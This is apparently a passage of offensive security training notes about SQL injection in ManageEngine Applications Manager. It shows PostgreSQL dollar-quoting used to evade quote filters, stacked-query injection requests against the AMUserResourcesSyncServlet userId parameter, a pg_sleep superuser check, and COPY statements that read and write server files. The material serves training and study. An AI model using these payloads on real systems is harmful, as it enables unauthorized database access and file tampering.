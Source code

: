Essentially, two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag." The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well.

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;
```
This allows us to fully bypass the quotes restriction we have previously encountered as shown in the listing below.

```
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```


1 (The PostgreSQL Global Development Group, 2020), https://www.postgresql.org/docs/9.2/static/sql-syntax-lexical.html ↩︎

#### Blind Bats

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;<some query>;--+ HTTP/1.0
Host: manageengine:8443
```
Listing 28 - The ability for us to execute arbitrary SQL statements through stacked queries

```
SELECT current_setting('is_superuser');
```
Listing 29 - Checking our DB privileges

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
Host: manageengine:8443
```
Listing 30 - Checking if we are DBA

```
COPY <table_name> from <file_name>
```
Listing 31 - Reading content from files

```
COPY <table_name> to <file_name>
```
Listing 32 - Writing content to files

```
COPY (select $$awae$$) to <file_name>
```
Listing 33 - Using a subquery to return valid data so that the COPY operation can write to a file
